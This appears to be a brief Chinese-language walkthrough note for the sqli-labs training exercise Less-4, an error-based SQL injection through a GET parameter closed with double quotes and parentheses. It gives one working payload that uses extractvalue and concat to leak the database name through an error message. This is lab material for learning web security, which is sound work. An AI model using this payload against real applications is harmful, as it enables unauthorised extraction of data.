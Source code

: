![](file/image_Ne96n5MTKc.png)

### Less-4：GET - Error based - Double Quotes - string

**注入类型**

报错注入

**闭合方式**

id=("\$id")

```sql
and extractvalue(1,concat(0x7e,database())) --+
```
